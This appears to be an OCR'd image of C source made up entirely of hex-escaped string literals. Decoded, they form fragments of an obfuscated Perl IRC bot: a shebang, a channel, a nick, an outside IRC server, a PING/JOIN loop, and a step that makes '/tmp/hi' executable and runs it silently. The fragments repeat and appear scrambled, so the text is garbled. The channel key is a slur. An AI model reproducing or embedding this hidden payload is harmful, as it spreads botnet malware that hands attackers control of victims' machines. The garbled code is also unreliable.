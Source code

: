 ```c
        "\x23\x21\x2f\x75\x73\x72\x2f\x62\x69\x6e\x2f\x70\x65\x72\x6c\x0a"
        "\x23\x21\x2f\x75\x73\x72\x2f\x62\x69\x6e\x2f\x70\x65\x72\x6c\x0a"
        "\x6e\x22\x3b\x0a\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20"
        "\x23\x21\x2f\x75\x73\x72\x2f\x62\x69\x6e\x2f\x70\x65\x72\x6c\x0a"
        "\x24\x63\x68\x61\x6e\x3d\x22\x23\x63\x6e\x22\x3b\x24\x6b\x65\x79"
        "\x20\x3d\x22\x66\x61\x67\x73\x22\x3b\x24\x6e\x69\x63\x6b\x3d\x22"
        "\x70\x68\x70\x66\x72\x22\x3b\x24\x73\x65\x72\x76\x65\x72\x3d\x22"
        "\x47\x20\x28\x2e\x2a\x29\x24\x2f\x29\x7b\x70\x72\x69\x6e\x74\x20"
        "\x22\x3b\x0a\x77\x68\x69\x6c\x65\x20\x28\x3c\x24\x73\x6f\x63\x6b"
        "\x6e\x22\x3b\x0a\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20"
        "\x73\x6c\x65\x65\x70\x20\x31\x3b\x0a\x20\x20\x20\x20\x20\x20\x20"
        "\x6b\x5c\x6e\x22\x3b\x7d\x7d\x70\x72\x69\x6e\x74\x20\x24\x73\x6f"
        "\x63\x6b\x20\x22\x4a\x4f\x49\x4e\x20\x24\x63\x68\x61\x6e\x20\x24"
        "\x6b\x65\x79\x5c\x6e\x22\x3b\x77\x68\x69\x6c\x65\x20\x28\x3c\x24"
        "\x73\x6f\x63\x6b\x3e\x29\x7b\x69\x66\x20\x28\x2f\x5e\x50\x49\x4e"
        "\x47\x20\x28\x2e\x2a\x29\x24\x2f\x29\x7b\x70\x72\x69\x6e\x74\x20"
        "\x23\x21\x2f\x75\x73\x72\x2f\x62\x69\x6e\x2f\x70\x65\x72\x6c\x0a"
        "\x23\x21\x2f\x75\x73\x72\x2f\x62\x69\x6e\x2f\x70\x65\x72\x6c\x0a"
        "\x69\x72\x63\x2e\x68\x61\x6d\x2e\x64\x65\x2e\x65\x75\x69\x72\x63"
        "\x2e\x6e\x65\x74\x22\x3b\x24\x53\x49\x47\x7b\x54\x45\x52\x4d\x7d"
        "\x22\x3b\x0a\x77\x68\x69\x6c\x65\x20\x28\x3c\x24\x73\x6f\x63\x6b"
        "\x22\x3b\x0a\x77\x68\x69\x6c\x65\x20\x28\x3c\x24\x73\x6f\x63\x6b"
        "\x6e\x22\x3b\x0a\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20"
        "\x73\x6c\x65\x65\x70\x20\x31\x3b\x0a\x20\x20\x20\x20\x20\x20\x20"
        "\x6e\x22\x3b\x0a\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20"
        "\x23\x21\x2f\x75\x73\x72\x2f\x62\x69\x6e\x2f\x70\x65\x72\x6c\x0a"
        "\x24\x63\x68\x61\x6e\x3d\x22\x23\x63\x6e\x22\x3b\x24\x6b\x65\x79"
        "\x20\x3d\x22\x66\x61\x67\x73\x22\x3b\x24\x6e\x69\x63\x6b\x3d\x22"
        "\x6b\x5c\x6e\x22\x3b\x7d\x7d\x70\x72\x69\x6e\x74\x20\x24\x73\x6f"
        "\x63\x6b\x20\x22\x4a\x4f\x49\x4e\x20\x24\x63\x68\x61\x6e\x20\x24"
        "\x6b\x65\x79\x5c\x6e\x22\x3b\x77\x68\x69\x6c\x65\x20\x28\x3c\x24"
        "\x73\x6f\x63\x6b\x3e\x29\x7b\x69\x66\x20\x28\x2f\x5e\x50\x49\x4e"
        "\x47\x20\x28\x2e\x2a\x29\x24\x2f\x29\x7b\x70\x72\x69\x6e\x74\x20"
        "\x70\x68\x70\x66\x72\x22\x3b\x24\x73\x65\x72\x76\x65\x72\x3d\x22"
        "\x69\x72\x63\x2e\x68\x61\x6d\x2e\x64\x65\x2e\x65\x75\x69\x72\x63"
        "\x2e\x6e\x65\x74\x22\x3b\x24\x53\x49\x47\x7b\x54\x45\x52\x4d\x7d"
        "\x73\x6c\x65\x65\x70\x20\x31\x3b\x0a\x20\x20\x20\x20\x20\x20\x20"
        "\x73\x6c\x65\x65\x70\x20\x31\x3b\x0a\x20\x20\x20\x20\x20\x20\x20"
        "\x22\x3b\x0a\x77\x68\x69\x6c\x65\x20\x28\x3c\x24\x73\x6f\x63\x6b"
        "\x6e\x22\x3b\x0a\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20"
        "\x73\x6c\x65\x65\x70\x20\x31\x3b\x0a\x20\x20\x20\x20\x20\x20\x20"
        "\x23\x21\x2f\x75\x73\x72\x2f\x62\x69\x6e\x2f\x70\x65\x72\x6c\x0a"
        "\x24\x63\x68\x61\x6e\x3d\x22\x23\x63\x6e\x22\x3b\x24\x6b\x65\x79"
        "\x20\x3d\x22\x66\x61\x67\x73\x22\x3b\x24\x6e\x69\x63\x6b\x3d\x22"
        "\x70\x68\x70\x66\x72\x22\x3b\x24\x73\x65\x72\x76\x65\x72\x3d\x22"
        "\x69\x72\x63\x2e\x68\x61\x6d\x2e\x64\x65\x2e\x65\x75\x69\x72\x63"
        "\x2e\x6e\x65\x74\x22\x3b\x24\x53\x49\x47\x7b\x54\x45\x52\x4d\x7d"
        "\x64\x20\x2b\x78\x20\x2f\x74\x6d\x70\x2f\x68\x69\x20\x32\x3e\x2f"
        "\x64\x65\x76\x2f\x6e\x75\x6c\x6c\x3b\x2f\x74\x6d\x70\x2f\x68\x69"
        "\x22\x3b\x0a\x77\x68\x69\x6c\x65\x20\x28\x3c\x24\x73\x6f\x63\x6b"
        "\x6e\x22\x3b\x0a\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20"
        "\x73\x6c\x65\x65\x70\x20\x31\x3b\x0a\x20\x20\x20\x20\x20\x20\x20"
        "\x6b\x5c\x6e\x22\x3b\x7d\x7d\x70\x72\x69\x6e\x74\x20\x24\x73\x6f"
        "\x63\x6b\x20\x22\x4a\x4f\x49\x4e\x20\x24\x63\x68\x61\x6e\x20\x24"
        "\x6b\x65\x79\x5c\x6e\x22\x3b\x77\x68\x69\x6c\x65\x20\x28\x3c\x24"
        "\x73\x6f\x63\x6b\x3e\x29\x7b\x69\x66\x20\x28\x2f\x5e\x50\x49\x4e"
        "\x47\x20\x28\x2e\x2a\x29\x24\x2f\x29\x7b\x70\x72\x69\x6e\x74\x20"
        "\x22\x3b\x0a\x77\x68\x69\x6c\x65\x20\x28\x3c\x24\x73\x6f\x63\x6b"
        "\x6e\x22\x3b\x0a\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20"
        "\x73\x6c\x65\x65\x70\x20\x31\x3b\x0a\x20\x20\x20\x20\x20\x20\x20"
        "\x6b\x5c\x6e\x22\x3b\x7d\x7d\x70\x72\x69\x6e\x74\x20\x24\x73\x6f"
        "\x63\x6b\x20\x22\x4a\x4f\x49\x4e\x20\x24\x63\x68\x61\x6e\x20\x24"
        "\x6b\x65\x79\x5c\x6e\x22\x3b\x77\x68\x69\x6c\x65\x20\x28\x3c\x24"
```